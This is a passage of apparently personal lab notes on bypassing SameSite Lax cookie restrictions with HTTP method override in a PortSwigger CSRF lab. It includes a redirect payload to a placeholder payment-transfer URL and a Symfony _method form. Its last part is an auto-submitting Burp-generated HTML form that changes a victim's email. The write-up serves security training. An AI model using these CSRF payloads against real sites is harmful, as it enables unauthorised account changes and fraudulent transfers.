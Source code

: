 - Sometimes, servers on the internet don't really care if you send them information using a "GET" or "POST" request, especially when you're sending data from a web form. They can handle both types of requests even if they were originally designed for one specific type.

- If they also use `Lax` restrictions for their session cookies, either explicitly or due to the browser default, you may still be able to perform a [CSRF attack](https://portswigger.net/web-security/csrf) by eliciting a `GET` request from the victim's browser.

**The following is one of the simplest approaches to launching such an attack:**
```js
<script> 
	document.location = 'https://vulnerable-website.com/account/transfer-payment?recipient=hacker&amount=1000000'; 
</script>
```
Even if an ordinary `GET` request isn't allowed, some frameworks provide ways of overriding the method specified in the request line.

**For example, Symfony supports the `_method` parameter in forms, which takes precedence over the normal method for routing purposes:**
```js
<form action="https://vulnerable-website.com/account/transfer-payment" method="POST">         <input type="hidden" name="_method" value="GET"> 
      <input type="hidden" name="recipient" value="hacker"> 
      <input type="hidden" name="amount" value="1000000"> 
</form>
```
Other frameworks support a variety of similar parameters.

## Steps to solve lab - 
### Title - SameSite Lax bypass via method override

**Desc** - This lab's change email function is vulnerable to CSRF. To solve the lab, perform a [CSRF attack](https://portswigger.net/web-security/csrf) that changes the victim's email address. You should use the provided exploit server to host your attack.

**Creds** - You can log in to your own account using the following credentials: `wiener:peter`

**Our end goal** - To solve the lab, perform a [CSRF attack](https://portswigger.net/web-security/csrf) that changes the victim's email address. You should use the provided exploit server to host your attack.

1. Analyse the website and check that three key conditions must be in place for a CSRF attack to be possible:
After analysing the site, we come across a endpoint where it is possible to change the email of a user. So, change your email and at the same time intercept it with burpsuite and sent it to Repeater.
![[csrf52.png]]
   - A relevant action - email change functionality.
   - Cookie based session handling.
   - No unpredictable request parameters - Satisfied(As you can see, there is no CSRF token that we can't predict it).

2. Now, we are going to create "CSRF POC" script with the help of burpsuite pro and for that right click on the request that we captured earlier with the help of burpsuite pro do the below steps:
"Engagement tools" > "Generate CSRF PoC"
![[csrf53.png]]

**After doing the above steps, there is a new window pop up.**
![[csrf54.png]]
In this window, click on "Options" and make sure to select first and last options and click "Regenerate" and copy the script.

3. Now, change the method in the form tag to "GET" because chrome browser by default enforce lax restriction on cross site requests(Lax restriction only allow request if request is sent with method as GET) and add the below code just below to form tag to pass the parameters.
```js
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a8a005504bd85b680d2495900520080.web-security-academy.net/my-account/change-email" method="GET">
      <input type="hidden" name="_method" value="POST"> 
	  <input type="hidden" name="email" value="sukuna&#64;gmail&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```
_method just override the method of form tag to "POST".

![[csrf55.png]]

